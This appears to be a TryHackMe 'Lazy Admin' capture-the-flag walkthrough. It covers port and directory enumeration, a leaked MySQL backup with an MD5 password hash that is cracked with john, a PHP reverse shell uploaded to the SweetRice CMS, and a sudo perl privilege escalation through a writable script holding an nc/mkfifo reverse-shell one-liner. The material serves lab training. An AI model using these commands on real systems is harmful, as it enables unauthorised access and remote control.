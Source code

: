 #Lazy Admin

https://tryhackme.com/room/lazyadmin

1. user flag
	echo <machine-ip> lazyadmin.com >> /etc/hosts

##Enumeration
nmap -sC -sV -oN nmap.txt lazyadmin.com
```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```
```bash
firefox lazyadmin.com
```
We will run gobuster to enumerate the website
```bash
gobuster dir -u http://lazyadmin.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/content
```
```bash
firefox lazyadmin.com/content
```
```lazyadmin.com/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
firefox lazyadmin.com/content/inc
```
```
we will see a folder named mysql_backup
navigate to mysql_backup and download the file
open the file using any text editor i use vim
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
manager : 42f749ade7f9e195bf475f37a44cafcb(MD5)
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```creds
manager : Password123
```
```bash
firefox lazyadmin.com/content/as
```
and enter the creds to login
and navigate to media center
and upload the reverse shell if you dont have you can download it from the link below
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
after changing the ip address and renaming it to revshell.php5
we see the file is uploaded
open terminal and execute this
```bash
nc -lnvp 4444
``` 
now click on the uploaded file
and we got a shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
enter these two commands to spawn a tty terminal
move to /home/itguy

```
we got the user flag
```

2. root flag

##Privilege Escalation
```mysql.backup
rice : randompass
```
```back.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Luckily we can write into copy.sh 
now all we need to do is insert a reverse shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 5554" >/tmp/f > copy.sh
```
open a new terminal and run this command
```bash
nc -lnvp 5554
```
then go victim shell and execute this command
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```
we got the user flag
```
